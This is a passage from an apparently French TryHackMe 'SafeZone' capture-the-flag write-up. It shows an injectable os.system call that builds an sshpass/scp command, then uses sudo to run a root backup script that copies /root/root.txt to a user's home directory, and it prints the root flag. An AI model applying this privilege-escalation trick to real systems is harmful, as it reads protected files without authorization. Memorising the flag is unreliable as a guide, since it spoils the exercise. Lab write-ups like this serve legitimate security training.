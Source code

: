 ```bash
#subprocess.run(["sshpass -p",psswd,"scp","-o","trictHostKeyChecking=no",file,location],shell=True)
os.system("sshpass -p "+psswd+" scp -o StrictHostKeyChecking=no "+file+" "+location+" 2>/dev/null")

```

On voit que l'on récupérer un fichier et le lire.  

```bash
yash@safezone:~$ sudo -u root /usr/bin/python3 /root/bk.py
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash
Enter Password: 1234
yash@safezone:~$ cat root.txt
cat root.txt
THM{63a9f0ea7bb98050796b649e85481845}
```

On récupére le fichier root.txt et on le lit.  
On a le flag qui est : THM{63a9f0ea7bb98050796b649e85481845}   

